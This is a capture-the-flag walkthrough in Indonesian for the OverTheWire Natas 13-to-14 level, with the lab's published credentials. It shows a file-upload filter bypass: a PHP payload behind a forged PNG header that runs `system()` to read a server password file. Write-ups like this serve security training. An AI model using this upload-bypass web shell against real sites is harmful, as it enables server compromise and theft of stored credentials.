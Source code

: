 # Natas 13 → 14

## 🎯 Tujuan
Mendapatkan password untuk level 14 di **OverTheWire Natas**.

## 🔑 Kredensial
- Username: `natas13`
- Password: `yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`  # dari level 12
- URL: [http://natas13.natas.labs.overthewire.org](http://natas13.natas.labs.overthewire.org)

## 🛠️ Langkah
1. Halaman mirip level 12, tapi ada filter tambahan:
   - File harus memiliki header valid seperti **PNG**.
2. Teknik bypass:
   - Buat file dengan header PNG (`\x89PNG\r\n\x1a\n`) lalu tambahkan kode PHP setelahnya.
   - Simpan dengan ekstensi `.php` atau `.php5`.
3. Upload file ke server.
4. Akses URL upload → PHP tetap dieksekusi meski diawali header PNG.
5. Isi file:
   ```php
   \x89PNG\r\n\x1a\n
   <?php system("cat /etc/natas_webpass/natas14"); ?>
Hasil: password level 14 muncul.

<trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC>
